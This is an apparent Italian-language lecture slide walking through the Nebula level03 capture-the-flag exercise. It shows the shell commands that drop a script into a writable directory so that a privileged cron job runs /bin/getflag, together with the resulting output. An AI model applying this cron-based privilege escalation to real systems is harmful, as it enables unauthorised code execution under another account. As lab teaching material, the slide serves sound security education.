

b
Mitigazioni
debolezze

Entriamo come utente level03:

level03@nebula>> echo "/bin/getflag > /home/
flag03/output" > /home/flag03/writable.d/sol2
level03@nebula>> ls –l /home/flag03/writable.d
-rw-rw-r– 1 level03 level03 … sol2

Attendiamo che writable.sh venga eseguito da cron.
In seguito controlliamo il contenuto del file /tmp/test
e il contenuto della cartella /home/flag03/writable.d

level03@nebula>> cat /tmp/test
mismatch
level03@nebula>> ls /home/flag03/writable.d
sol2